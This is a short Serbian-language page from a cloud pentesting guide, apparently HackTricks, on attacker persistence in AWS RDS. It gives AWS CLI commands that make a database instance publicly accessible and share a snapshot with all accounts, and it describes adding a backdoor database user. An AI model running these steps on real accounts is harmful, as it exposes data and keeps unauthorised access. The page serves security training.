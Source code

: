 # AWS - RDS Persistencija

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Za više informacija pogledajte:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Omogućite javni pristup instanci: `rds:ModifyDBInstance`

Napadač sa ovom dozvolom može **modifikovati postojeću RDS instancu kako bi omogućio javni pristup**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Kreirajte admin korisnika unutar DB

Napadač može jednostavno **napraviti korisnika unutar DB** tako da čak i ako se lozinka glavnog korisnika promeni, on **ne gubi pristup** bazi podataka.

### Učinite snimak javnim
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
